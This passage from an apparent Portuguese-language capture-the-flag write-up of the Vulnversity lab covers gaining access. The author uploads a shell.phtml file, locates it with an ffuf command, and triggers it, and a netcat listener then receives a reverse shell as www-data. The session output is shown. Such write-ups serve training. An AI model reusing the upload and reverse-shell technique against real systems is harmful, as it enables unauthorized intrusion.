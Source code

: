 ![Alt text](/assets/img/vulnversity6.png)

## **Acesso**
### Reverse Shell
Fiz upload do arquivo shell.phtml
Rodei o ffuf novamente pra ver onde foi parar o arquivo.  
``$ ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.152.108:3333/internal/FUZZ -t 200 -v -e .php,.txt,.old,.bkp``
![Alt text](/assets/img/vulnversity7.png)
 
 Executada em <http://10.10.152.108:3333/internal/uploads/shell.phtml>
 
```shell
 ┌──(kali💀kali)-[~/thm/vulnversity]
└─$ rlwrap nc -lvnp 4443       
listening on [any] 4443 ...
connect to [10.6.125.125] from (UNKNOWN) [10.10.152.108] 46796
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:44:07 up 22 min,  0 users,  load average: 0.00, 0.01, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1334): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vulnuniversity:/$ 
```
{: .nolineno }
